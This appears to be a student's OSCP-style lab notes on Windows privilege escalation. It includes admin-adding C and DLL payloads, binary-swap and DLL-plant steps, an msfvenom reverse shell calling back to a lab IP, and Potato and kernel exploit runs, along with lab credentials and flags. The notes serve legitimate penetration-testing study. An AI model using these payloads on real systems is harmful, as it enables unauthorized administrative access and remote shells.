> 🔍 **Worth remembering generally:** PSReadline doesn't just log commands that run successfully — it logs everything typed, including accidental pastes, mistyped commands, and raw strings entered into the prompt. A sysadmin pasting a password into the wrong window gets it permanently saved to the history file.

#### Tags: #PSReadline #PowerShellHistory #PowerShellTranscription #ScriptBlockLogging #EvilWinRM #Module17

---

### 17.1.5. Automated Enumeration

Manual enumeration takes time. winPEAS runs all of the above automatically and outputs a colour-coded report. Essential for time-limited real-world assessments; used alongside manual work in labs (tools miss things that manual searching catches).

```bash
# On Kali: copy the 64-bit binary and serve it
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```

```powershell
# On target: download and run
iwr -uri http://<kali-ip>/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```

**winPEAS colour legend:**
- 🔴 **Red** -- special privilege or misconfiguration (investigate)
- 🟢 **Green** -- protection enabled or good config (safe, note it)
- Cyan -- active users
- Blue -- disabled users

**Key sections to review in winPEAS output:**
- `Basic System Information` -- OS version, architecture, domain join (note: winPEAS misidentified Win11 as Win10 in the example -- never trust tool output blindly)
- `PS default transcripts history` -- list of transcript files (but can miss some locations)
- `Users` -- users, groups, password policies at a glance
- `Checking for DPAPI Master Files` -- DPAPI-encrypted secrets (credential manager, browser passwords)
- `Looking for possible password files` -- text files that might contain credentials
- `Services` -- services with weak binary permissions (same as Get-ModifiableServiceFile)
- `Scheduled Tasks` -- tasks running as higher-privileged users
- `Installed Applications` -- via registry

**PowerUp.ps1** -- more targeted than winPEAS for service-related privesc:

```powershell
# Download and import
iwr -uri http://<kali-ip>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1

# Key functions:
Get-ModifiableServiceFile   # Services where current user can replace the binary
Get-UnquotedService         # Services with unquoted paths containing spaces
Get-ModifiablePath          # Writable paths in DLL search order
```

> 🔧 **Technique:** winPEAS and PowerUp can be blocked by AV. Fallbacks: Seatbelt (`-group=all` for comprehensive output), JAWS, or full manual enumeration. Apply AV evasion techniques from [[Antivirus Evasion]] if needed.

> 🔍 **Worth remembering generally:** tools miss things. winPEAS in the CLIENTWK220 example missed: the `asdf.txt` meeting note on dave's desktop, the PSReadline history file, and the transcript in `C:\Users\Public\`. Tools are a time-saver, not a replacement for manual work. Always do both.

**Lab status: ✅ Completed (VM #1)**

**VM #1 (CLIENTWK220, bind shell port 4444):**

*winPEAS — DPAPI Masterkeys:*
- Served winPEAS from Kali: `cp /usr/share/peass/winpeas/winPEASx64.exe . && python3 -m http.server 80`
- Downloaded to target: `powershell iwr -uri http://192.168.45.159/winPEASx64.exe -Outfile C:\Users\dave\winPEAS.exe`
- Ran with output redirect: `C:\Users\dave\winPEAS.exe > C:\Users\dave\winpeas_out.txt 2>&1` (~2m40s, bind shell drops after — reconnect and search the file)
- Searched output: `findstr /i "masterkey" C:\Users\dave\winpeas_out.txt`
- Found 6 DPAPI masterkeys under dave's Protect store (SID S-1-5-21-2309961351-4093026482-2223492918-1002)
- Lab answer (full path format required, not just GUID):
  **`MasterKey: C:\Users\dave\AppData\Roaming\Microsoft\Protect\S-1-5-21-2309961351-4093026482-2223492918-1002\7ba528f7-4e73-48a3-8a67-e5680688c9ff`**

*Seatbelt — XAMPP DisplayVersion:*
- Precompiled Seatbelt available on Kali at `/home/kali/tools/exploit/SharpCollection/NetFramework_4.5_x64/Seatbelt.exe`
- Served and downloaded same way as winPEAS
- Ran: `C:\Users\dave\Seatbelt.exe -group=all > C:\Users\dave\seatbelt_out.txt 2>&1` (~58s, shell drops — reconnect)
- `findstr /i "xampp" seatbelt_out.txt` found DisplayName but not DisplayVersion in context
- Used `powershell "Select-String -Path C:\Users\dave\seatbelt_out.txt -Pattern 'XAMPP' -Context 5,5"` to show surrounding lines
- InstalledProducts section (line 905-906): `DisplayName: XAMPP` / **`DisplayVersion: 7.4.29-1`**
- Lab answer: **`7.4.29-1`**
- Bonus: Seatbelt also surfaced a meeting notes AutoSummary (line 3906) containing `securityIsNotAnOption++++++` — same credential found manually in 17.1.3, confirming tools and manual work complement each other

> 🔧 **Technique:** the lab answer requires the full `MasterKey: C:\Users\...\<GUID>` path format — submitting just the bare GUID is rejected. Copy the full line from winPEAS output.

> 🔍 **Worth remembering generally:** bind shells sometimes drop after a long-running process like winPEAS/Seatbelt completes. Redirect output to a file first (`> out.txt 2>&1`), reconnect, then search the file — much more reliable than trying to capture live scrolling output over nc.

> 🔍 **Worth remembering generally:** `findstr` shows matching lines with no context. For "find the nearby field" problems, use `Select-String -Context N,N` in PowerShell instead — it shows N lines before and after each match.

> 📸 Screenshot: winPEAS DPAPI Masterkeys section showing the six keys under dave's Protect store
> 📸 Screenshot: Seatbelt InstalledProducts section showing XAMPP DisplayVersion 7.4.29-1
> 📸 Screenshot: Seatbelt AutoSummary section showing steve's password in meeting notes

#### Tags: #WinPEAS #PowerUp #Seatbelt #AutomatedEnumeration #DPAPI #Module17

---

## 17.2. Leveraging Windows Services

A Windows service is a long-running process managed by the Service Control Manager. Services have associated binary files and run under a specified user context (LocalSystem, Network Service, a local user, or a domain user). Three ways to abuse them for privesc:

1. Replace the service binary itself (if you can write to it)
2. Replace a DLL the binary loads (if you can write to the DLL or a directory the binary searches)
3. Drop a binary into a directory for an unquoted service path (if you can write to a directory in the path)

### 17.2.1. Service Binary Hijacking

If a service binary is writable by your user, replace it with a malicious binary. When the service starts (or restarts), it runs your code with the service's privileges -- often SYSTEM.



#### Enumeration

```powershell
# List running services with binary paths
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Check permissions on the binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

**icacls permission masks:**

| Mask | Permission |
|---|---|
| F | Full access |
| M | Modify access |
| RX | Read and execute |
| R | Read-only |
| W | Write-only |

Look for `BUILTIN\Users:(F)` or `BUILTIN\Users:(M)` -- that means any standard user (including you) can replace the binary. Missing `(I)` before the permission means it was set explicitly, not inherited -- this often means an admin deliberately set it that way without understanding the security implication.

```powershell
# Check startup type (do you need to reboot to trigger?)
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# Check if you have shutdown privilege (needed for reboot approach)
whoami /priv   # look for SeShutdownPrivilege
```

#### Malicious Binary

```c
// adduser.c -- creates a new local admin
#include <stdlib.h>

int main() {
    int i;
    i = system("net user dave2 password123! /add");
    i = system("net localgroup administrators dave2 /add");
    return 0;
}
```

```bash
# Cross-compile on Kali for 64-bit Windows target
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Exploitation

```powershell
# Download malicious binary
iwr -uri http://<kali-ip>/adduser.exe -Outfile adduser.exe

# Backup original, replace with malicious
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe          # backup original
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe       # replace

# Try to restart service (probably denied as non-admin)
net stop mysql    # likely: "System error 5 has occurred. Access is denied."

# If StartMode is Auto, reboot instead
shutdown /r /t 0

# After reboot, verify
Get-LocalGroupMember administrators   # should now include dave2
```

#### PowerUp Automation

```powershell
# Import PowerUp
. .\PowerUp.ps1

# Identify vulnerable services
Get-ModifiableServiceFile
# Output includes: ServiceName, Path, ModifiableFile, permissions, CanRestart

# AbuseFunction (creates john:Password123! as local admin)
Install-ServiceBinary -Name 'mysql'
# Note: may fail if service path has arguments with paths (known PowerUp bug)
# Manual exploitation is more reliable
```

> 🔧 **Technique:** PowerUp's `Install-ServiceBinary` can fail when the service binary path contains arguments that include file paths (e.g., `--defaults-file=C:\xampp\...`). `Get-ModifiablePath` returns empty results for these. In that case, ignore the AbuseFunction and do the manual binary swap.

> 🔍 **Worth remembering generally:** don't reboot production systems without explicit client approval. A service that fails to come back up can cause serious downtime. In real assessments, coordinate reboots with the client's IT team. In labs: go ahead.

> 📸 Screenshot: `icacls mysqld.exe` showing `BUILTIN\Users:(F)` -- the key finding
> 📸 Screenshot: `Get-LocalGroupMember administrators` after reboot showing dave2 was created

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, RDP as dave:lab):**
- `Get-CimInstance -ClassName win32_service` → found `mysql` running from `C:\xampp\mysql\bin\mysqld.exe`
- `icacls "C:\xampp\mysql\bin\mysqld.exe"` → `BUILTIN\Users:(F)` — full write access for all users
- Confirmed `StartMode: Auto` and `SeShutdownPrivilege` available to dave
- Compiled malicious binary on Kali: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
  - Creates `dave2:password123!` and adds to local Administrators
- Downloaded via `iwr`, swapped binaries:
  ```powershell
  move C:\xampp\mysql\bin\mysqld.exe C:\Users\dave\mysqld.exe   # backup original
  move C:\Users\dave\adduser.exe C:\xampp\mysql\bin\mysqld.exe  # plant malicious
  ```
- `shutdown /r /t 0` → RDP drops, machine reboots
- Reconnected as dave → `Get-LocalGroupMember administrators` → `dave2` present
- `evil-winrm -i 192.168.206.220 -u dave2 -p 'password123!'` → shell as local admin
- Flag: **`OS{cef4d6f4321bb9dd6aba394818e8b7f9}`** at `C:\Users\daveadmin\Desktop\flag.txt`

**VM #2 (CLIENTWK221, RDP as milena / MyBirthDayIsInJuly1!):**
- Downloaded and imported PowerUp.ps1, ran `Get-ModifiableServiceFile`
- Found `BackupMonitor` service: binary at `C:\BackupMonitor\BackupMonitor.exe`, runs as `.\roy`, `CanRestart: True`
- edgeupdate entries ignored: `ModifiableFile: C:\` (directory, not binary) and `CanRestart: False`
- Generated reverse shell on Kali: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.159 LPORT=4444 -f exe -o shell.exe`
- Started listener: `nc -lvnp 4444`
- Swapped binary:
  ```powershell
  move C:\BackupMonitor\BackupMonitor.exe C:\Users\milena\BackupMonitor.exe
  move C:\Users\milena\shell.exe C:\BackupMonitor\BackupMonitor.exe
  ```
- `Restart-Service BackupMonitor` → shell caught as `clientwk221\roy`
- Flag: **`OS{652e043d55c7ff94a2e33ae74937e21d}`** at `C:\Users\roy\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** when the service runs as a named user (not SYSTEM), use a reverse shell payload rather than adduser.exe — you need a shell as that specific user to access their files. adduser only helps when the service runs as SYSTEM/admin and you need lateral movement.

> 🔁 Similar to: [[Antivirus Evasion#Shellter]] — payload delivery via binary replacement; the shell catches in the same nc listener pattern.

#### Tags: #ServiceBinaryHijacking #icacls #mingw #Windows #PrivilegeEscalation #Module17

---

### 17.2.2. DLL Hijacking

**Dynamic Link Libraries (DLLs)** are shared code libraries loaded by executables at runtime. If a service binary loads a DLL from a writable location (or tries to load a DLL that doesn't exist), you can plant a malicious DLL there instead.

Two vectors:
1. **Replace an existing DLL** the service uses (if you can write to it) -- service may lose functionality but your code runs
2. **Missing DLL hijacking** -- binary tries to load a DLL that doesn't exist anywhere in the search order; plant yours in a writable location it checks first

#### DLL Search Order (Safe DLL Search Mode enabled -- default on modern Windows)



> 🔍 **Worth remembering generally:** with safe DLL search mode DISABLED (rare, but check), the current directory moves to position 2, making it much easier to hijack. Check the registry: `HKLM\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode`.

#### Finding Missing DLLs (Process Monitor)

Process Monitor captures every file system, registry, and process event in real time. To identify DLLs a process tries (and fails) to load:

1. Run Process Monitor as admin (may need to use a privileged account's credentials via UAC prompt)
2. Add filter: **Process Name → is → filezilla.exe → Include**
3. Clear events, then launch the target application
4. Add second filter: **Operation → is → CreateFile → Include**
5. Add third filter: **Path → contains → TextShaping.dll → Include** (or the DLL name you're hunting)
6. Look for `NAME NOT FOUND` result -- that means the binary looked for the DLL there and it wasn't present

In the FileZilla 3.63.1 example:
- FileZilla looks for `TextShaping.dll` in `C:\FileZilla\FileZilla FTP Client\` first → `NAME NOT FOUND`
- Then finds it in System32 (which you can't write to)
- But you CAN write to `C:\FileZilla\FileZilla FTP Client\` (confirmed with write test)
- Plant your DLL there → it loads first (position 1 in search order wins)

#### DLL Code Template

DLLs have an optional `DllMain` entry point called when a process or thread loads/unloads the DLL. `DLL_PROCESS_ATTACH` fires when the process first loads the DLL -- exactly when you want code execution.

```cpp
// TextShaping.cpp -- malicious DLL
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HANDLE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved)
{
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:    // fires when process loads this DLL
            int i;
            i = system("net user dave3 password123! /add");
            i = system("net localgroup administrators dave3 /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

```bash
# Cross-compile as DLL (--shared flag)
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

```powershell
# Confirm write access to target directory
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
type 'C:\FileZilla\FileZilla FTP Client\test.txt'   # should print "test"

# Transfer and place the DLL
iwr -uri http://<kali-ip>/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'

# Wait for a privileged user to launch the application
# The DLL will execute in THEIR security context, not yours
# Check results after a few minutes:
net user                    # look for dave3
net localgroup administrators  # look for dave3
```

> 🔧 **Technique:** the DLL executes with the privileges of whoever launches the application. If you plant a DLL that gets triggered when a regular user runs the app, you get their privileges (no escalation). You need a privileged user to run it. In lab environments, a simulated admin process triggers it automatically. In real assessments, wait for an admin to open the app, or combine with social engineering.

> 🔧 **Technique:** to identify the correct DLL to target on a real engagement, copy the service binary to a local VM with admin access, install Process Monitor, and replay the execution locally. That avoids needing admin on the actual target just to run Procmon.

> 📸 Screenshot: Process Monitor filtered to filezilla.exe showing `NAME NOT FOUND` for TextShaping.dll in the application directory
> 📸 Screenshot: `net user` confirming dave3 was created after a privileged user launched FileZilla

**Lab status: ✅ Completed (VM #1)**

**VM #1 (CLIENTWK220, RDP as dave:lab):**
- Skipped Process Monitor — DLL name already known from module: `TextShaping.dll` missing from `C:\FileZilla\FileZilla FTP Client\`
- Confirmed write access: `echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'` → worked
- Compiled malicious DLL on Kali:
  ```bash
  x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
  ```
  Payload: creates `dave3:password123!` as local admin on `DLL_PROCESS_ATTACH`
- Planted: `iwr -uri http://192.168.45.159/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'`
- Waited ~2 minutes for daveadmin's scheduled task to launch FileZilla
- Polled with `net user dave3` — user appeared once scheduled task fired
- `evil-winrm -i 192.168.206.220 -u dave3 -p 'password123!'` → shell as local admin
- Flag: **`OS{32667176bc11f88de10aa41735170de4}`** at `C:\Users\daveadmin\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** DLL hijacking is a waiting game when the trigger is a scheduled task — unlike service binary hijacking where you control the restart. Don't try to force it; just poll `net user <newuser>` every 60 seconds. If nothing after 5 minutes, suspect a flaky task and revert.

> 🔍 **Worth remembering generally:** the `--shared` flag is what makes mingw produce a DLL instead of an EXE. Forgetting it produces an EXE that won't load as a DLL and the hijack silently fails.

> 📸 Screenshot: write test confirming dave can write to `C:\FileZilla\FileZilla FTP Client\`
> 📸 Screenshot: `net user dave3` output showing dave3 in Administrators after DLL fired
> 📸 Screenshot: evil-winrm as dave3 + flag.txt contents

#### Tags: #DLLHijacking #DLLSearchOrder #ProcessMonitor #DllMain #DLL_PROCESS_ATTACH #Module17

---

### 17.2.3. Unquoted Service Paths

When a service binary path contains spaces and is NOT enclosed in quotes, Windows has to guess where the filename ends and arguments begin. It does this by splitting at every space and appending `.exe` to test each possibility. If you can write to any directory in an interpreted path, you can plant a binary there that executes when the service starts.

#### How Windows Interprets Unquoted Paths

```
Unquoted path: C:\Program Files\My Program\My Service\service.exe

Windows tries:
  1. C:\Program.exe
  2. C:\Program Files\My.exe
  3. C:\Program Files\My Program\My.exe
  4. C:\Program Files\My Program\My Service\service.exe   ← actual binary
```



The highest-value writable directory is usually the application's own subdirectory (option 3 above) -- `C:\` and `C:\Program Files\` are almost never writable by standard users.

#### Finding Vulnerable Services

```cmd
REM Find services with spaces in path AND missing quotes (run in cmd.exe not PowerShell to avoid escaping)
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

REM Example output:
REM GammaService  C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

```powershell
# PowerShell alternative
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -notmatch '"' -and $_.PathName -match ' ' -and $_.PathName -notmatch 'C:\\Windows' } | Select Name,PathName
```

#### Exploitation

```powershell
# Check if you can start/stop the service (no reboot needed if yes)
Start-Service GammaService
Stop-Service GammaService

# Check write permissions on each directory in the interpreted path
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
# Look for W or F for BUILTIN\Users or NT AUTHORITY\Authenticated Users
```

The interpreted paths for `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`:
```
C:\Program.exe                                         (need write to C:\)
C:\Program Files\Enterprise.exe                        (need write to C:\Program Files\)
C:\Program Files\Enterprise Apps\Current.exe           (need write to C:\Program Files\Enterprise Apps\)
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe  (the real binary)
```

```powershell
# If C:\Program Files\Enterprise Apps is writable:
iwr -uri http://<kali-ip>/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

# Start the service (or restart if you can)
Start-Service GammaService
# Error is expected if adduser.exe doesn't accept service control parameters
# BUT the binary still executed and created dave2

# Verify
net user                        # dave2 should appear
net localgroup administrators   # dave2 should be there
```

> 🔧 **Technique:** `Start-Service` may show an error because your `adduser.exe` stub doesn't properly handle Windows service control signals (START, STOP, etc.). That error is irrelevant -- the binary runs and executes its code before Windows notices the service didn't respond correctly. Check `net user` to confirm the user was created.

#### PowerUp Automation

```powershell
. .\PowerUp.ps1
Get-UnquotedService            # identifies vulnerable services + writable paths

# AbuseFunction: creates john:Password123! as local admin
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
```

> 📸 Screenshot: `wmic service get name,pathname` output with GammaService highlighted -- the unquoted path
> 📸 Screenshot: `icacls "C:\Program Files\Enterprise Apps"` showing W permission for BUILTIN\Users
> 📸 Screenshot: `net localgroup administrators` after attack confirming dave2 was added

**Lab status: ⬜ Pending (VM #1 and VM #2)**

> 🚩 **Hands-on, VM spin-up required:** Windows Privilege Escalation - Unquoted Service Paths VM #1 (CLIENTWK220, RDP as steve) -- exploit GammaService unquoted path, get admin shell, find flag on daveadmin's desktop. VM #2 (CLIENTWK221, RDP as damian) -- find unquoted service, exploit it, find flag ⬜ Pending

#### Tags: #UnquotedServicePath #WMIC #ServiceHijack #Windows #PrivilegeEscalation #Module17

---

## 17.3. Abusing Other Windows Components

### 17.3.1. Scheduled Tasks

Scheduled tasks run programs on a trigger (time, event, startup, logon). If a task runs as a privileged user and you can write to its executable, you escalate when it fires.

**Three things to always extract from each task:**
1. **As which user does it run?** (Run As User) -- if it's NT AUTHORITY\SYSTEM or an admin, it's interesting
2. **When does it trigger?** -- if the last run time was in the past and it's a one-time task, it's not useful; if it runs on a schedule, you can time your attack
3. **What does it execute?** (Task To Run) -- can you write to that binary or its directory?

```cmd
REM List all scheduled tasks with full detail
schtasks /query /fo LIST /v

REM Key fields to note:
REM   TaskName, Author, Task To Run, Run As User, Next Run Time, Schedule Type
```

```powershell
# PowerShell alternative
Get-ScheduledTask | Select TaskName,TaskPath,State | Where-Object {$_.State -ne 'Disabled'}
```

**The CLIENTWK220 example:**
```
TaskName:      \Microsoft\CacheCleanup
Task To Run:   C:\Users\steve\Pictures\BackendCacheCleanup.exe
Run As User:   daveadmin
Schedule Type: One Time Only, Minute  (runs every minute!)
Author:        CLIENTWK220\daveadmin
```

This is a gift: the task runs as `daveadmin` (privileged), every minute, and the binary is in steve's home directory (steve has Full Access to their own files).

```powershell
# Confirm permissions on the task binary
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
# Should show steve:(I)(F) -- inheritable Full Access for the owner

# Download malicious binary, replace the legitimate one
iwr -Uri http://<kali-ip>/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak  # backup
move .\BackendCacheCleanup.exe .\Pictures\                            # place malicious

# Wait for the task to fire (in this case, within a minute)
net user                        # dave2 appears
net localgroup administrators   # dave2 is an admin
```

> 🔍 **Worth remembering generally:** scheduled tasks that run frequently (every minute) are ideal targets -- you don't have to wait long to verify the attack worked. Tasks that run daily or weekly at a specific time may require planning or patience.

> 🔧 **Technique:** the same approach as service binary hijacking -- same malicious binary, same "create a local admin user" stub. The only difference is the trigger mechanism. If you can write to a file that runs as a higher-privileged user (service binary, task binary, startup script), the attack is the same.

> 📸 Screenshot: `schtasks /query` output showing CacheCleanup task's Run As User and Task To Run fields
> 📸 Screenshot: `net localgroup administrators` confirming dave2 was added after the task fired

**Lab status: ⬜ Pending (VM #1 and VM #2)**

> 🚩 **Hands-on, VM spin-up required:** Windows Privilege Escalation - Scheduled Tasks VM #1 (CLIENTWK220, RDP as steve) -- exploit CacheCleanup task, replace binary, get admin shell, find flag on daveadmin's desktop. VM #2 (CLIENTWK221, RDP as moss) -- find and exploit a scheduled task, find flag ⬜ Pending

#### Tags: #ScheduledTasks #schtasks #BinaryReplacement #PrivilegeEscalation #Module17

---

### 17.3.2. Using Exploits

Three categories of exploits for Windows privilege escalation:

#### 1. Application Vulnerabilities

Installed apps running with admin/SYSTEM privileges may have known CVEs. If you can trigger code execution through the vulnerability, you inherit the app's privileges. Same research process as [[Locating Public Exploits]]: identify version, search ExploitDB/GitHub/NVD.

#### 2. Windows Kernel Exploits

Unpatched kernel vulnerabilities can let a user-mode process execute code in the kernel, achieving SYSTEM. Research process:
1. `systeminfo` → get OS build number
2. `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }` → list installed security updates
3. Check which KB patches the relevant CVE -- if the patch KB isn't in the list, the system is likely vulnerable
4. Search GitHub/ExploitDB for a compiled PoC

Example: **CVE-2023-29360** (Microsoft Streaming Service Proxy elevation of privilege, patched in KB5027215):
```powershell
# Verify the patch is absent
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
# If KB5027215 is not listed, likely vulnerable

# Run the exploit (pre-compiled PoC)
.\CVE-2023-29360.exe
whoami  # → nt authority\system
```

> ⚠️ **Caution:** kernel exploits can crash the system. In real assessments: verify the patch level carefully before attempting, use only when source code is available to audit the binary, test on a clone if possible, and confirm rules of engagement permit it. In labs: use them freely.

#### 3. Abusing Windows Privileges (SeImpersonatePrivilege)

`SeImpersonatePrivilege` lets a process impersonate another user after capturing their authentication. Windows assigns it by default to:
- Local Administrators group
- LOCAL SERVICE, NETWORK SERVICE, SERVICE accounts
- IIS application pools (ApplicationPoolIdentity, which is very common after web exploits)

**The attack flow:**



**Named pipes background:** a named pipe server creates a communication channel; any process that connects authenticates as itself. With SeImpersonatePrivilege, the server can then call `ImpersonateNamedPipeClient()` to temporarily adopt that client's security context. Potato-family tools automate the coercion of NT AUTHORITY\SYSTEM into connecting to the controlled pipe.

```bash
# Download SigmaPotato from Kali
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
python3 -m http.server 80
```

```powershell
# Check for SeImpersonatePrivilege
whoami /priv
# Look for: SeImpersonatePrivilege | Impersonate a client after authentication | Enabled

# Download SigmaPotato
iwr -uri http://<kali-ip>/SigmaPotato.exe -OutFile SigmaPotato.exe

# Execute commands as SYSTEM
.\SigmaPotato "net user dave4 lab /add"
.\SigmaPotato "net localgroup Administrators dave4 /add"

# Verify
net user
net localgroup Administrators
```

> 🔍 **Worth remembering generally:** Potato family variants to know: **RottenPotato** (original), **SweetPotato**, **JuicyPotato** (needs CLSID, wide Windows 10 support), **GodPotato** (Windows 2012-2022, most current), **SigmaPotato** (modern variant, no CLSID needed). In OSCP labs, JuicyPotato and SigmaPotato appear most. Check which Windows version you're on -- not all work on all versions.

> 🔁 **Similar to:** the JuicyPotato privesc in [[Arctic]] and [[Active]] box writeups -- same underlying privilege, different tool. The SeImpersonatePrivilege → Potato chain is the single most common Windows privesc path after getting a web shell on an IIS server.

> 🎬 **[ippsec.rocks: "SeImpersonatePrivilege"](https://ippsec.rocks/?#SeImpersonatePrivilege)** -- search "juicypotato" or "potato" for boxes where this is the primary escalation path; HTB Jeeves and HTB Arctic are canonical examples

**Lab status: ⬜ Pending (VM #1, VM #2, VM #3 Capstone)**

> 🚩 **Hands-on, VM spin-up required:** Windows Privilege Escalation - Using Exploits VM #1 (CLIENTWK220, RDP as steve) -- run CVE-2023-29360 kernel exploit, get SYSTEM, find flag on daveadmin's desktop. VM #2 (CLIENTWK220) -- use SigmaPotato via SeImpersonatePrivilege, find flag. VM #3 Capstone (CLIENTWK222, bind shell port 4444) -- full chain, flag at C:\Users\enterpriseadmin\Desktop\flag.txt ⬜ Pending

#### Tags: #KernelExploit #SeImpersonatePrivilege #SigmaPotato #JuicyPotato #Potato #NamedPipes #CVE202329360 #Module17

---

## 17.4. Wrapping Up

The Windows privesc methodology, in order:



> 🔍 **Worth remembering generally:** privileged access on every machine is rarely the realistic goal of a real pentest. Some machines aren't rootable, and that's fine. The goal is to identify where privileged access leads to further compromise of the infrastructure, not to get SYSTEM on everything at any cost.

> 🔁 **Similar to:** the manual enumeration → automated tool → manual follow-up loop here mirrors the methodology in [[Vulnerability Scanning#7.1. A Practical Approach to Vulnerability Scanning|Vulnerability Scanning]] -- tools give you the fast sweep, manual work catches what tools miss.

> 🎬 **[ippsec.rocks: "windows privilege escalation"](https://ippsec.rocks/?#windows%20privilege%20escalation)** -- search "service binary" for hijacking walkthroughs; "unquoted" for path exploits; "scheduled task" for task-based privesc
> 🎬 **[ippsec.rocks: "winpeas"](https://ippsec.rocks/?#winpeas)** -- boxes where winPEAS identifies the vector

> 🔗 **PayloadsAllTheThings -- Windows Privilege Escalation (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
> 🔗 **HackTricks -- Windows Local Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- search "windows local privilege escalation"
> 🔗 **LOLBAS Project** -- Windows binaries that can be abused for download, execute, bypass: [lolbas-project.github.io](https://lolbas-project.github.io)
> 🔗 **SigmaPotato GitHub:** [github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
> 🔗 **winPEAS releases (GitHub):** [github.com/carlospolop/PEASS-ng/releases](https://github.com/carlospolop/PEASS-ng/releases)

#### Tags: #WindowsPrivesc #PrivilegeEscalation #Methodology #Module17

---

## 🎯 Related Boxes to Practice

**Technique-genuine boxes (core privesc techniques from this module):**
- **HTB Devel** -- IIS file upload → SeImpersonatePrivilege / JuicyPotato path; Windows 7 32-bit, good for NTFS privesc basics
- **HTB Granny / Grandpa** -- IIS WebDAV upload → kernel exploit route (MS14-070, MS09-050); classic Windows kernel privesc
- **HTB Optimum** -- HFS exploit foothold → Windows Server 2012 kernel exploit (MS16-098 / Sherlock); kernel privesc workflow exactly as this module describes (systeminfo → find missing patch → exploit)
- **HTB Jeeves** -- JuicyPotato via SeImpersonatePrivilege after Jetty web shell; canonical Potato example from the OSCP prep list
- **HTB Arctic** -- ColdFusion file upload → JuicyPotato (SeImpersonatePrivilege); same Potato chain, different initial foothold
- **HTB Bastard** -- Drupal RCE → Windows Server 2008 kernel exploit route (MS15-051); good kernel privesc repetition
- **HTB SecNotes** -- SMB credential leak → administrator access; service/credential enumeration workflow

**Adjacent-workflow boxes (enumeration and credential patterns from 17.1):**
- **HTB Bastion** -- SMB share enumeration → SAM/SYSTEM extraction from backup → credential reuse (exactly the "hidden in plain view" pattern)
- **HTB Blue** -- EternalBlue on Windows 7; if you want to see what an unpatched system looks like without any privesc needed
- **HTB Bounty** -- IIS upload bypass → SeImpersonatePrivilege; upload + privesc combination

**Search guidance:**
- `ippsec.rocks` -- search "unquoted service path" for walkthroughs; "dll hijacking windows" for DLL technique; "schtasks privilege escalation" for scheduled task examples
- Offsec PG Practice (OSCP Discord / community lists) -- filter for Windows boxes tagged "service binary" or "privesc"
- TJNull's OSCP prep list -- the Windows section covers most of the techniques in this module

#### Tags: #RelatedBoxes #HTBDevel #HTBJeeves #HTBArctic #HTBOptimum #HTBBastion #Module17

---

## **Outstanding Sections**

- [x] **17.1.1 Understanding Windows Privileges and Access Control Mechanisms:** done (SID anatomy, access token primary vs impersonation, MIC integrity levels, UAC dual-token model, architecture diagram, quiz answers)
- [x] **17.1.2 Situational Awareness:** done (7-item checklist, all commands, service enumeration via CimInstance, notes on RDP-vs-WinRM limitation)
- [x] **17.1.3 Hidden in Plain View:** done (search commands, dave→steve→backupadmin chain diagram, Runas/WinRM/schtask alternatives; VM#1 flag OS{b67353ae86bde2f8d1844c7288fa58af}, VM#2 flag OS{d34310dc18bf3ccbb9ee6736d28e4dfc})
- [x] **17.1.4 Information Goldmine PowerShell:** done (PSReadline vs Clear-History distinction, transcript files, Script Block Logging, PSCredential extraction, evil-winrm connection; VM#1 flag OS{24476ccf8a8b02789587efeaaff171ec}, VM#2 flag OS{17c49c88efb309356ac36871cf778957})
